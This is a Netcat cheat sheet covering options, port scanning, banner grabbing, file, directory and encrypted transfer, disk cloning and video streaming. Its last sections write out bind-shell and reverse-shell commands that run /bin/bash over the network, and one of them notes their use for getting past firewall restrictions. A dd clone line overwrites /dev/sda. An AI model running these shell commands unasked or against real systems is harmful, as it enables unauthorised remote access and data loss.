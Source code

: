 ```yaml
---
title: Netcat
date: 2020-11-25 18:28:43
icon: icon-netcat
background: bg-blue-600
tags: 
    - ncat
    - nc
    - utility
    - network
    - traffic
categories:
    - Linux Command
intro:  This cheat sheet provides various for using Netcat on both Linux and Unix.
---
```


Getting started {.cols-5}
---------------

### Usage {.col-span-2}

Connect to a host located anywhere

```shell script
$ nc [options] [host] [port]
```

Listen for incoming connections
```shell script 
$ nc -lp port [host] [port]
```



### Option examples {.col-span-3 .row-span-2}

| Option | Description                | Example                                  |
|--------|----------------------------|------------------------------------------|
| `-h`   | nc -h                      | Help                                     |
| `-z`   | nc -z 192.168.1.9 1-100    | Port scan for a host or IP address       |
| `-v`   | nc -zv 192.168.1.9 1-100   | Provide verbose output                   |
| `-n`   | nc -zn 192.168.1.9 1-100   | Fast scan by disabling DNS resolution    |
| `-l`   | nc -lp 8000                | TCP Listen mode _(for inbound connects)_ |
| `-w`   | nc -w 180 192.168.1.9 8000 | Define timeout value                     |
| `-k`   | nc -kl 8000                | Continue listening after disconnection   |
| `-u`   | nc -u 192.168.1.9 8000     | Use UDP instead of TCP                   |
| `-q`   | nc -q 1 192.168.1.9 8000   | Client stay up after EOF                 |
| `-4`   | nc -4 -l 8000              | IPv4 only                                |
| `-6`   | nc -6 -l 8000              | IPv6 only                                |


### Chat client-server {.col-span-2}
Server (192.168.1.9)
```shell script
$ nc -lv 8000
```

Client
```shell script
$ nc 192.168.1.9 8000
```



Netcat Examples {.cols-3}
--------

### Banner grabbing
```shell script
$ nc website.com 80
GET index.html HTTP/1.1
HEAD / HTTP/1.1
```
or
```shell script
echo "" | nc -zv -wl 192.168.1.1 801-805
```

### Port scanning

Scan ports between 21 to 25
```shell script
$ nc -zvn 192.168.1.1 21-25
```

Scan ports 22, 3306 and 8080
```shell script
$ nc -zvn 192.168.1.1 22 3306 8080
```


### Proxy and port forwarding
```shell script
$ nc -lp 8001 -c "nc 127.0.0.1 8000"
```
or
```shell script
$ nc -l 8001 | nc 127.0.0.1 8000
```
Create a tunnel from one local port to another



### Download file

Server (192.168.1.9)
```shell script
$ nc -lv 8000 < file.txt
```

Client
```shell script
$ nc -nv 192.168.1.9 8000 > file.txt
```

Suppose you want to transfer a file “file.txt” from server A to client B.


### Upload file

Server (192.168.1.9)
```shell script
$ nc -lv 8000 > file.txt
```

Client
```shell script
$ nc 192.168.1.9 8000 < file.txt
```

Suppose you want to transfer a file “file.txt” from client B to server A:


### Directory transfer

Server (192.168.1.9)
```shell script
$ tar -cvf – dir_name | nc -l 8000
```

Client
```shell script
$ nc -n 192.168.1.9 8000 | tar -xvf -
```

Suppose you want to transfer a directory over the network from A to B.


### Encrypt transfer {.col-span-2}


Server (192.168.1.9)
```shell script
$ nc -l 8000 | openssl enc -d -des3 -pass pass:password > file.txt
```

Client
```shell script
$ openssl enc -des3 -pass pass:password | nc 192.168.1.9 8000
```

Encrypt data before transfering over the network



### Clones

Server (192.168.1.9)
```shell script
$ dd if=/dev/sda | nc -l 8000
```

Client
```shell script
$ nc -n 192.168.1.9 8000 | dd of=/dev/sda
```

Cloning a linux PC is very simple. Suppose your system disk is /dev/sda



### Video streaming

Server (192.168.1.9)
```shell script
$ cat video.avi | nc -l 8000
```

Client
```shell script {.wrap}
$ nc 192.168.1.9 8000 | mplayer -vo x11 -cache 3000 -
```

Streaming video with netcat




### Remote shell

Server (192.168.1.9)
```shell script
$ nc -lv 8000 -e /bin/bash
```

Client
```shell script
$ nc 192.168.1.9 8000
```

We have used remote Shell using the telnet and ssh but what if they are not installed and we do not have the permission to install them, then we can create remote shell using netcat also.



### Reverse shell

Server (192.168.1.9)
```shell script
$ nc -lv 8000
```

Client
```shell script
$ nc 192.168.1.9 8000 -v -e /bin/bash
```

Reverse shells are often used to bypass the firewall restrictions like blocked inbound connections

